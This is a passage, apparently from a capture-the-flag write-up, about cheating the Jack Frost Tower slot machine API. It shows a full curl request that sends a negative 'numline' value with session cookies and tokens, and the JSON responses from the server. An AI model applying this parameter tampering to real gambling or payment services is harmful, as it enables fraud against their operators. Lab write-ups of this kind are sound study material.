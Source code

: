 ```js
      "HasJackpot": false,
      "HasScatter": false,
      "WildColumIcon": "",
      "ScatterPrize": 0,
      "SlotIcons": [
        "icon9",
        "icon9",
        "icon5",
        "wild",
        "icon9",
        "icon6",
        "icon2",
        "icon6",
        "icon4",
        "icon9",
        "icon10",
        "icon4",
        "icon5",
        "wild",
        "icon6"
      ],
      "ActiveIcons": [],
      "ActiveLines": []
    },
    "response": "Keep playing!"
  },
  "message": "Spin success"
}
```

Setting the `numline` parameter to a negative number guarantees to always win:
```bash
curl 'https://slots.jackfrosttower.com/api/v1/02b05459-0d09-4881-8811-9a2a7e28fd45/spin'   -H 'authority: slots.jackfrosttower.com'   -H 'pragma: no-cache'   -H 'cache-control: no-cache'   -H 'sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"'   -H 'accept: application/json'   -H 'content-type: application/x-www-form-urlencoded'   -H 'sec-ch-ua-mobile: ?0'   -H 'x-ncash-token: eab79bec-5017-43f9-899a-4b1bddc1644c'   -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36'   -H 'sec-ch-ua-platform: "Windows"'   -H 'origin: https://slots.jackfrosttower.com'   -H 'sec-fetch-site: same-origin'   -H 'sec-fetch-mode: cors'   -H 'sec-fetch-dest: empty'   -H 'referer: https://slots.jackfrosttower.com/uploads/games/frostyslots-206983/index.html'   -H 'accept-language: en-US,en;q=0.9,it;q=0.8'   -H 'cookie: XSRF-TOKEN=eyJpdiI6IjB5N2hVOWcvTUdYZ3BWd3pxU1dzYmc9PSIsInZhbHVlIjoiTGI3SURSM1NsTW10YUtQeC84T0pVelRaRjI2YWxFWk5JYlRscEovUXFKem1tdWhaK1pUS3BxMkJPRExCMzNPYUFINFZDd29BM3E5TnBrdEh5L01LRDF5ZG1HZjdTanNsRGVxZlg3cEVmZnBKSHFNWlZJMFMzSGVEWnMrbmRoeHQiLCJtYWMiOiJhZDkyZDIzM2UzYzMxMDQ1MDcwMTNkMTU2ODVhMWMyNzgzODBjYWU0OGE1ZTEzNzkzODI4MDZhNjhiZDU5Yzc2IiwidGFnIjoiIn0%3D; slots_session=eyJpdiI6IkRpdFM3QjdxS0N4dThxRGdSVlZLemc9PSIsInZhbHVlIjoiSnVhbGtHZVhkTTd3ZHEzNkNkWkgzL3dMbEJ0OVdzZEh4RXoyVXlLM2ovSDJsM2hUQkdRUFc3TlJNRUY4YjBZTlpBQ000Z2g1RnNPdTh5MjNXTVo3N3ZEZFQwRmRueDhuY0RiRzNkbmUydkJYY2w3RUQ2WmRiYzNlZXZkRmFHZXkiLCJtYWMiOiJhMDkzYjBlODZhMzQyYThlNDM2M2I1OTk0M2I3NDdiOGMyZjY4OGM3NjUzM2EzMGMzYjg3ZTk4NTNlOTE0NTNhIiwidGFnIjoiIn0%3D'   --data-raw 'betamount=1&numline=-20&cpl=0.1'   --compressed
```
```js
{
  "success": true,
  "data": {
    "credit": 99,
    "jackpot": 0,
    "free_spin": 0,
    "free_num": 0,
    "scaler": 0,
    "num_line": -20,
    "bet_amount": 1,
    "pull": {
      "WinAmount": 0,
      "FreeSpin": 0,
```